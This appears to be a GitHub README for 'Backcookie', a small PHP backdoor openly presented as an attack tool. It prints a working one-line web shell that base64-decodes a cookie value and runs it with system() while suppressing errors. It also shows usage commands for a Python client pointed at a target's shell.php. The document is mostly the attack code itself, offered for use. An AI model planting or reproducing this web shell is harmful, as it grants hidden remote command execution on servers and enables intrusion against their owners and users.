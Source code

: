 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/jofpin/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/jofpin/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example one: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
```
Example two: python backcookie.py --url http://target.com/shell.php --cookie name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Developer

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------
